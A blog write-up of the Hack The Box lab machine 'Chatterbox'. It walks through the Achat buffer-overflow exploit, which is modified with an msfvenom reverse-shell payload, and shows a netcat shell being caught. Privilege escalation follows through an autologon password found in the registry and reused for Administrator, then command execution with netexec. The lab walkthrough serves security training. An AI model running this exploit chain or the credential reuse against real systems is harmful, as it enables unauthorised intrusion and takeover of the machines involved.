


---
title: Chatterbox
author: Chvxt3r
date: 2025-10-17 14:10:00 +0800
categories: [writeups]
render_with_liquid: false
tags: HTB, Easy, achat, netexec, nmap, exploitdb, msfvenom, python 
---


# Chatterbox by Hack The Box

## Overview
***Chatterbox is a medium difficulty machine that features an exploit in in a chat system to gain initial access, and from there we can discover credentials that will leed us to root. I don't know if this was a medium box back in the day it was released, but it's pretty cake now.**

## Enumeration
* We start with our normal nmap scan, looking for anything interesting  

```bash
sudo nmap -sCV -T4 -p- 10.129.153.76 --open -oA scans/nmap_initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 22:01 PDT
Nmap scan report for 10.129.153.76
Host is up (0.097s latency).
Not shown: 63040 closed tcp ports (reset), 2485 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-18T06:03:22-04:00
|_clock-skew: mean: 6h19m58s, deviation: 2h18m36s, median: 4h59m56s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-18T10:03:18
|_  start_date: 2025-10-18T09:59:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.90 seconds
```
## Foothold
* So... looking over our nmap scan, we see a couple of things that interest us, first is 445 (SMB) and Achat? I've never heard of that, but let's check smb and see if it allows null or guest sessions.
```bash
➜  chatterbox nxc smb 10.129.153.76 -u '' -p '' --shares                                                       
SMB         10.129.153.76   445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.153.76   445    CHATTERBOX       [+] Chatterbox\: 
SMB         10.129.153.76   445    CHATTERBOX       [-] Error enumerating shares: STATUS_ACCESS_DENIED
➜  chatterbox nxc smb 10.129.153.76 -u 'guest' -p '' --shares
SMB         10.129.153.76   445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.153.76   445    CHATTERBOX       [-] Chatterbox\guest: STATUS_ACCOUNT_DISABLED
```
No null or guest access to smb. Let's turn our focus to achat.
```bash
➜  chatterbox searchsploit achat                                                
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                                                                                                 | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                                                                                    | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                                                                                       | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                                                                                         | php/webapps/24647.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
searchsploit tells us we have some exploits for that, including one in Metasploit. Buuuuut... since I'm trying to avoid using metasploit, let's take a look at the python script.
 I copy it from it's location to my tools folder (because I don't want to mess up the original) and open it nvim.  

Immediately 3 things stand out:  
1. There's an msfvenom command in here for generating a payload, but it looks like it's just a POC designed to spawn the calculator.

2. This script hasn't been parameterized so we'll have to edit the IP address to fit our case.

3. There's a bunch of shell code in the middle of the script. I'm betting this is the payload.
```python
buf =  b""                                                                                                                                                                               
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                               
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                               
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"                                                                                                                               
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"                                                                                                                               
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"                                                                                                                               
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"                                                                                                                               
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"                                                                                                                               
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"                                                                                                                               
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
```

So... Let's start with the msfvenom. The script as it exists originally, generates some shellcode to spawn the calculator on the host system. Well, that's not very useful to us. We're not hacking this thing so we can do our taxes. Buuuuuuut, we can change that command, to maybe a reverse shell or something useful. Maybe something like this:  
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\
    x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\x
    bd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xe
    b\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
This should give us a reverse shell. This command is going to spit out something that looks like the stuff in the middle of our script, so we need to take the output of msfvenom and replace those lines in our script.
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x
8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\x 
bd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xe
c\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python                                                                                  
Found 1 compatible encoders                                                                                                                                                                  
Attempting to encode payload with 1 iterations of x86/unicode_mixed                                                                                                                          
x86/unicode_mixed succeeded with size 774 (iteration=0)                                                                                                                                      
x86/unicode_mixed chosen with final size 774                                                                                                                                                 
Payload size: 774 bytes                                                                                                                                                                      
Final size of python file: 3822 bytes                                                                                                                                                        
buf =  b""                                                                                                                                                                                   
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                                                                                                   
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x4b\x4c\x58\x68\x35\x32\x59\x70"
```
As expected, we get our payload. Now we delete the old payload, and paste in the new payload.

Change the IP address for the socket and verify the port matches our nmap scan, which it does. Then save it as something else. Again, don't save over the original.

Setup a netcat listener on our port, 4444 in our case:
```bash
nc -lvnp 4444
```
Chmod our script to make it executable:
```bash
chmod +x [filename].py
```

And execute:
```bash
python2 36025_mod.py
```
*** Quick note: This script was written in python2. If you run it in python3 (defualt in kali) you will get a syntax error!***

Aaaaaaaand, if everything went as planned, we should get a shell back:
```bash
tools nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.60] from (UNKNOWN) [10.129.153.76] 49161
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
C:\Windows\system32>
```
Bam!!! Foothold! We could probably get the user flag here:
```bash
c:\Windows\System32>dir c:\users\alfred\desktop
dir c:\users\alfred\desktop
 Volume in drive C has no label.
 Volume Serial Number is 502F-F304

 Directory of c:\users\alfred\desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
10/18/2025  06:48 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,671,605,248 bytes free
```

## PrivEsc
So now we are in the box, but who are we? Let's get some info:

```bash
c:\Windows\system32>systeminfo                                                                                                                                                               
systeminfo                                                                                                                                                                                   
                                                                                                                                                                                             
Host Name:                 CHATTERBOX                                                                                                                                                        
OS Name:                   Microsoft Windows 7 Professional                                                                                                                                  
OS Version:                6.1.7601 Service Pack 1 Build 7601                                                                                                                                
OS Manufacturer:           Microsoft Corporation                                                                                                                                             
OS Configuration:          Standalone Workstation                                                                                                                                            
OS Build Type:             Multiprocessor Free                                                                                                                                               
Registered Owner:          Windows User
[...SNIP...]
```
Interesting info, but nothing really blowing my hair back... Let's see who we are and what we can do:

```bash
C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

Let's see how many users are on this box

```bash
C:\Windows\Panther>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.
```

OK, so it's just us and the admin.. let's hunt for some credentials...

aaaaaand we find a default password in the registry!

```bash
C:\Windows\Panther>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    W[...SNIP...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked
```

Now the question is, who's password is it?

Let's find out!

```bash
nxc smb 10.129.238.144 -u 'alfred' -p 'W[...SNIP...]' --shares
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\alfred:Welcome1! 
SMB         10.129.238.144  445    CHATTERBOX       [*] Enumerated shares
SMB         10.129.238.144  445    CHATTERBOX       Share           Permissions     Remark
SMB         10.129.238.144  445    CHATTERBOX       -----           -----------     ------
SMB         10.129.238.144  445    CHATTERBOX       ADMIN$                          Remote Admin
SMB         10.129.238.144  445    CHATTERBOX       C$                              Default share
SMB         10.129.238.144  445    CHATTERBOX       IPC$                            Remote IPC
```
Looks like that's Alfreds password, but it never hurts to check and see if it works for other users, you know, password reuse and all that...
```bash
nxc smb 10.129.238.144 -u 'Administrator' -p 'W[...SNIP...]' --shares
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
SMB         10.129.238.144  445    CHATTERBOX       [*] Enumerated shares
SMB         10.129.238.144  445    CHATTERBOX       Share           Permissions     Remark
SMB         10.129.238.144  445    CHATTERBOX       -----           -----------     ------
SMB         10.129.238.144  445    CHATTERBOX       ADMIN$          READ,WRITE      Remote Admin
SMB         10.129.238.144  445    CHATTERBOX       C$              READ,WRITE      Default share
SMB         10.129.238.144  445    CHATTERBOX       IPC$                            Remote IPC
```
Well would you look at that.. shame on them. Same password for Administrator. Let's see if we can grab the flag...
```bash
nxc smb 10.129.238.144 -u 'Administrator' -p 'W[...SNIP...]' -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
SMB         10.129.238.144  445    CHATTERBOX       [+] Executed command via wmiexec
SMB         10.129.238.144  445    CHATTERBOX       [Snipped Flag]
```

## Conclusion
There we go... easy peasy lemon squeazy. Like I said, I don't know if this machine was more difficult when it was released in 2018, but it's pretty cake now. It is still good practice for your python, netexec, and credential hunting skills though.
